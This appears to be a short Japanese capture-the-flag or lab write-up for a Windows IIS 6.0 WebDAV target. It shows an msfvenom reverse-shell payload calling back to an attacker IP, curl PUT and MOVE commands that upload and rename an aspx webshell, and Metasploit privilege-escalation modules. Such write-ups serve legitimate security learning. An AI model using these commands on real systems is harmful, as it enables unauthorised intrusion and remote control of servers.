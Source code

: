 # Enumeration
- port 80 で ```Microsoft IIS httpd 6.0``` が動いている
- ```Microsoft IIS httpd 6.0``` には RCE 可能な脆弱性 CVE-2017-7269 が存在する
  - PoC: https://www.exploit-db.com/exploits/16471

# Exploitation 
## 解1
- ```exploit/windows/iis/iis_webdav_upload_asp``` でmeterpreterシェルを取れる

## 解2
- HTTP メソッドとして PUT と MOVE が許可されているので、webshellをアップロードできる
  - ヘッダを見ると `X-Powered-By: ASP.NET` なので、aspx webshell を実行できる
  ```HTTP/1.1 200 OK
  Content-Length: 1433
  Content-Type: text/html
  Content-Location: http://10.10.10.15/iisstart.htm
  Last-Modified: Fri, 21 Feb 2003 15:48:30 GMT
  Accept-Ranges: bytes
  ETag: "05b3daec0d9c21:348"
  Server: Microsoft-IIS/6.0
  MicrosoftOfficeWebServer: 5.0_Pub
  X-Powered-By: ASP.NET
  Date: Thu, 03 Jun 2021 04:29:21 GMT
  ```
  - ペイロードはweb上から探すかmsfvenomで生成する
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=443 -f aspx > met.aspx`
- 拡張子が `aspx` だとアップロードできない
  - 拡張子を txt にしてアップロード
  - `curl -X PUT http://10.10.10.15/webshell.txt -d @webshell.aspx`
- 拡張子を aspx に変更する
  - `curl -X MOVE -H 'Destination:http://10.10.10.15/webshell.aspx' http://10.10.10.15/webshell.txt`
- aspxを実行できるようになる

## 解3
- msfvenom でペイロード生成
  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=443 -f aspx > met.aspx`

# Privesc
- ```post/multi/recon/local_exploit_suggester``` によると、3つ脆弱性がありそう
  - exploit/windows/local/ms14_058_track_popup_menu
  - exploit/windows/local/ms14_070_tcpip_ioctl
  - exploit/windows/local/ms15_051_client_copy_image
- どれか1つを使えばrootが取れるらしい
